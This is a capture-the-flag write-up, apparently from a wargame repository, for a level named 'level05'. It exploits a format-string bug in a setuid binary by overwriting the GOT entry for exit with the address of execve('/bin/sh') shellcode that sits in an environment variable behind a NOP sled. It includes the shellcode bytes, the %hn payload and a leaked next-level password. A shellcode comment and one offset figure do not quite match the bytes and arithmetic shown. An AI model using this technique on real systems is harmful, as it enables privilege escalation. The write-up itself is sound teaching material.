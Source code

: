 # Level05

## Setup

We find a binary file at the root of the user **`level05`** named *`./level05`*.

```bash
scp -r -P 4242 level05@<vm_ip>:/home/users/level05/level05 .
```

### Hex-Rays

We used the Hex-Rays output on the [Dogbolt website](https://dogbolt.org/).

## Source
```C
char s[100];
...
fgets(s, 100, stdin);
...
printf(s);
...
exit(0);
```
Unprotected printf alert ! exit is called after, we will redirect exit to a malicious shellcode

## bash
```bash
> python -c "print 'aaaaaaaa' + '%p '*30" | ./level05 
aaaaaaaa0x64 0xf7fcfac0 0xf7ec3add 0xffffd6df 0xffffd6de (nil) 0xffffffff 0xffffd764 0xf7fdb000 0x61616161 0x61616161 0x25207025 0x70252070 0x20702520
```
Our buffer is located at the 10th pointer using the %p exploit in printf, so we will overwrite at %10$n

## gdb
```bash
> disas exit

Dump of assembler code for function exit@plt:
0x08048370 <+0>:	jmp    *0x80497e0
0x08048376 <+6>:	push   $0x18
0x0804837b <+11>:	jmp    0x8048330
End of assembler dump.
```

We will modify exit got entry address content so that the program jumps into our malicious shell code:

```C
`char sc[] = "\x6a\x0b" // push byte +0xb`
	"\x58" // pop eax
	"\x99" // cdq
	"\x52" // push edx
	"\x68\x2f\x2f\x73\x68" // push dword 0x68732f2f
	"\x68\x2f\x62\x69\x6e" // push dword 0x6e69922f
	"\x89\xe3" // mov ebx, esp
	"\x31\xc9" // xor ecx, ecx
	"\xcd\x80"; // int 0x80
```
## bash
```bash
export SHELLCODE=$(python -c "print '\x90'*500 + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80'")
```

We had a difficult time finding the exact entrypoint to our shell code so we added a nopsled before

## gdb
```bash
> b main
> r
> x/200s environ
...
0xffffdd40:"SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\..."
> x/200c 0xffffdd40
0xffffdd40:	80 'P' 65  'A' 89  'Y' 76  'L' 79  'O' 65  'A' 68  'D' 48  '0'
0xffffdd48: 53  '5' 61  '=' -112  '\220' -112  '\220' -112  '\220' -112  '\220' -112  '\220' -112  '\220'
0xffffdd50: -112  '\220' -112  '\220' -112  '\220' -112  '\220' -112  '\220'	-112 '\220'	-112 '\220'	-112 '\220'
```
Let's take an address inside of our nopsled, 0xffffdd58

Now the issue is that ffffdd58 in decimal is a too big number, but thanks to the `h` printf modifier we can write 2 bytes instead of the default 4 bytes of %n. \
We write `dd58` to `exit+2` and then `ffff` to `exit` instead of `ffffdd58` in one go: \
0xffffdd58 - 8 = ffffdd50 (minus 8 because we write our 2 addresses before) \
dd50 = 56656 \
ffff - dd58 = 8879

## Payload
```bash
> python -c 'print "\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%56656c" + "%10$hn" + "%8871c" + "%11$hn"' > /tmp/payload05
> cat /tmp/payload05 - | ./level05
> cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```